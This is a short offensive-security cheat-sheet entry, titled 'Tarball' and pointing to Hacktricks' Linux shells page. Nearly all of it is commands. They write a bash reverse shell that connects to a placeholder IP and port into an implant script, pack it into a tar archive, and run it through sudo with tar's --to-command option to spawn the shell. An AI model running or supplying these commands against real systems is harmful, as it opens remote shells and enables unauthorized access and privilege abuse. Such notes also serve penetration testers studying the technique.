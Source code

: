 # Tarball

```
$ echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/<IP>/<PORT> 0>&1' > implant.sh
tar -cvf implant.tar implant.sh
sudo -u $USER tar -xvf implant.tar --to-command /bin/bash
```

---
## References

### Hacktricks

- [Hacktricks: Shells Linux](https://book.hacktricks.wiki/en/shells/shells/linux.html)